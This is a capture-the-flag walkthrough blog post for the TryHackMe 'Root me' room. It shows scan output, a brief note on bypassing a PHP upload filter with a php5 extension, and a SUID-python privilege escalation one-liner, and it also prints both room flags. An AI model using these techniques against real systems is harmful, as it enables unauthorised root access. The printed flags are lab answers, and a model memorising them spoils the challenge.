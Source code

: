 ```yaml
---
title: "Root me"
date: 2022-09-20T16:00:31+01:00
draft: false
categories:
  - TryHackMe
---
```


{{< post-img src="root.png" alt="root" style="width: 200px;" >}}

## Enumeration

```bash
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC9irIQxn1jiKNjwLFTFBitstKOcP7gYt7HQsk6kyRQJjlkhHYuIaLTtt1adsWWUhAlMGl+97TsNK93DijTFrjzz4iv1Zwpt2hhSPQG0GibavCBf5GVPb6TitSskqpgGmFAcvyEFv6fLBS7jUzbG50PDgXHPNIn2WUoa2tLPSr23Di3QO9miVT3+TqdvMiphYaz0RUAD/QMLdXipATI5DydoXhtymG7Nb11sVmgZ00DPK+XJ7WB++ndNdzLW9525v4wzkr1vsfUo9rTMo6D6ZeUF8MngQQx5u4pA230IIXMXoRMaWoUgCB6GENFUhzNrUfryL02/EMt5pgfj8G7ojx5
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBERAcu0+Tsp5KwMXdhMWEbPcF5JrZzhDTVERXqFstm7WA/5+6JiNmLNSPrqTuMb2ZpJvtL9MPhhCEDu6KZ7q6rI=
|   256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIC4fnU3h1O9PseKBbB/6m5x8Bo3cwSPmnfmcWQAVN93J

80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: HackIT - Home
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

```bash
.hta                    [Status: 403, Size: 277, Words: 20, Lines: 10]
.htaccess               [Status: 403, Size: 277, Words: 20, Lines: 10]
.htpasswd               [Status: 403, Size: 277, Words: 20, Lines: 10]
css                     [Status: 301, Size: 310, Words: 20, Lines: 10]
index.php               [Status: 200, Size: 616, Words: 115, Lines: 26]
js                      [Status: 301, Size: 309, Words: 20, Lines: 10]
panel                   [Status: 301, Size: 312, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10]
uploads                 [Status: 301, Size: 314, Words: 20, Lines: 10]
```

That room is self-explanatory...its a big no sh\*t sherlock
As guided this is I am sprinting this so just flags here

oh `php no permitido`

lmao...lets just try `php5`

```bash
$ cd /var/www
$ ls
html
user.txt
$ cat user.txt
THM{gotta_go_fast}
```

Time to get better privileges

## Privilege Escalation

```bash
$ find / -user root -perm /4000 2> /dev/null

/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/traceroute6.iputils
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
/snap/core/8268/bin/mount
/snap/core/8268/bin/ping
/snap/core/8268/bin/ping6
/snap/core/8268/bin/su
/snap/core/8268/bin/umount
/snap/core/8268/usr/bin/chfn
/snap/core/8268/usr/bin/chsh
/snap/core/8268/usr/bin/gpasswd
/snap/core/8268/usr/bin/newgrp
/snap/core/8268/usr/bin/passwd
/snap/core/8268/usr/bin/sudo
/snap/core/8268/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/8268/usr/lib/openssh/ssh-keysign
/snap/core/8268/usr/lib/snapd/snap-confine
/snap/core/8268/usr/sbin/pppd
/snap/core/9665/bin/mount
/snap/core/9665/bin/ping
/snap/core/9665/bin/ping6
/snap/core/9665/bin/su
/snap/core/9665/bin/umount
/snap/core/9665/usr/bin/chfn
/snap/core/9665/usr/bin/chsh
/snap/core/9665/usr/bin/gpasswd
/snap/core/9665/usr/bin/newgrp
/snap/core/9665/usr/bin/passwd
/snap/core/9665/usr/bin/sudo
/snap/core/9665/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/9665/usr/lib/openssh/ssh-keysign
/snap/core/9665/usr/lib/snapd/snap-confine
/snap/core/9665/usr/sbin/pppd
/bin/mount
/bin/su
/bin/fusermount
/bin/ping
/bin/umount
```

So now they let people run python with SUID
that bad boy can literally execute commands
`/usr/bin/python`
For better comfort

```bash
$ python -c 'import pty; pty.spawn("/bin/bash")'
bash-4.4$
```
Now look I am going to spawn a shell
`./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`
Ta-daaa!

```bash
# cat root.txt

cat root.txt
THM{pri-pri-privileges_escalation}
```

ye that's what we did
